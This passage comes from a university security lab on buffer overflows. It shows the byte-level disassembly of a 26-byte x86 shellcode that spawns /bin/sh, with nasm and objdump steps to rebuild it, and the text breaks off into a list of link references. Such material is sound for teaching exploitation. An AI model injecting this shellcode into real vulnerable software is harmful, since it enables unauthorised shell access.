 </div>

We won't do it in this lab, but the assembly code above can be assembled
using [`nasm`][nasm], an assembler for the x86 CPU architecture.
`nasm` would compile the above assembly into an object file (called,
say, `sploit.o`),
and that resulting object file contains the exact sequence of bytes we
need
to insert in order to invoke `/bin/sh`. The following table is an
extract from a compiled object file produced by `nasm`,[^objdump] and
shows that just
26 bytes (hex `0x1a`) are needed -- these 26 bytes
will have the same effect as the 20KB executable compiled from
`shellcode.c`.
The leftmost column shows offsets in
hex,
the second column the exact byte values we want, and the last column
the corresponding assembly code:

[^objdump]: You can replicate this by saving the assembly code as
  a file `sploit.s`, and inserting the lines: \
  \
  `section .text`  \
  &nbsp;&nbsp;`global _start` \
  &nbsp;&nbsp;&nbsp;&nbsp;`_start:` \
  \
  at the start. Compile it with the command `nasm -f elf32 sploit.s -o
  sploit.o`, then issue the command `objdump -d sploit.o` to see the
  disassembled shellcode.


```
off   bytes                       assembly code
---------------------------------------------------
   0:    31 c0                    xor    eax,eax
   2:    50                       push   eax
   3:    68 2f 2f 73 68           push   0x68732f2f
   8:    68 2f 62 69 6e           push   0x6e69622f
   d:    89 e3                    mov    ebx,esp
   f:    50                       push   eax
  10:    53                       push   ebx
  11:    89 e1                    mov    ecx,esp
  13:    31 d2                    xor    edx,edx
  15:    31 c0                    xor    eax,eax
  17:    b0 0b                    mov    al,0xb
  19:    cd 80                    int    0x80
```

[nasm]: https://www.nasm.us

### 2.1. Invoking the shellcode

Download the file [`bufoverflow-code.zip`][lab-zip] into the VM
(you can use the command `wget https://cits3007.arranstewart.io/labs/lab-05-code.zip`)
and unzip it.


[sde]: https://cits3007.arranstewart.io/faq/#cits3007-sde
[codespaces]: https://code.visualstudio.com/docs/remote/codespaces  {target=_blank}
[differences]: https://cits3007.arranstewart.io/labs/lab00-mac-02-arm64.html#differences {target=_blank}
[docker]: https://docs.docker.com/get-started/overview/  {target=_blank}
[daemon]: https://en.wikipedia.org/wiki/Daemon_(computing)
[arch-sysctl]: https://wiki.archlinux.org/title/Sysctl
[canaries]: https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/
[gcc-stack-protector]: https://developers.redhat.com/articles/2022/06/02/use-compiler-flags-stack-protection-gcc-and-clang#stack_canary
[gcc-stack-man]: https://gcc.gnu.org/onlinedocs/gcc-12.2.0/gcc/Instrumentation-Options.html#Instrumentation-Options
[jit-compiler]: https://en.wikipedia.org/wiki/Just-in-time_compilation
[bytecode]: https://en.wikipedia.org/wiki/Bytecode
[self-modifying-code]: https://en.wikipedia.org/wiki/Self-modifying_code
[copy-protection]: https://en.wikipedia.org/wiki/Copy_protection
[bendersky-jit]: https://eli.thegreenplace.net/2013/11/05/how-to-jit-an-introduction
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[shell]: https://en.wikipedia.org/wiki/Shell_(computing)
[man-execve]: https://man7.org/linux/man-pages/man2/execve.2.html
[teensy]: http://www.muppetlabs.com/~breadbox/software/tiny/teensy.html
[^assembly]: Also called [assembly][assembly], assembler language, assembler
[assembly]: https://en.wikipedia.org/wiki/Assembly_language
[^registers]: A small, named memory cell used by the processor.
[x86-asm-guide]: https://www.cs.virginia.edu/~evans/cs216/guides/x86.html
[lab-zip]: https://cits3007.arranstewart.io/labs/lab-05-code.zip
[func-ptr-decl]: https://www.cprogramming.com/tutorial/function-pointers.html#:~:text=Function%20Pointer%20Syntax
[personality]: https://man7.org/linux/man-pages/man2/personality.2.html
[man-fork]: https://man7.org/linux/man-pages/man2/fork.2.html
[man-exec]: https://man7.org/linux/man-pages/man3/exec.3.html
[register]: https://en.wikipedia.org/wiki/Processor_register
[pytute]: https://developers.google.com/edu/python/introduction
[^mem-seg]: The man page for [proc](https://linux.die.net/man/5/proc) explains
[^main_line]: A little math tells us that (*location_in_main* $-$
[gdb-conv-var]: https://sourceware.org/gdb/onlinedocs/gdb/Convenience-Vars.html
[^intptr]: Technically, it would be more appropriate to treat `$saved_eip`
[x-command]: https://visualgdb.com/gdbreference/commands/x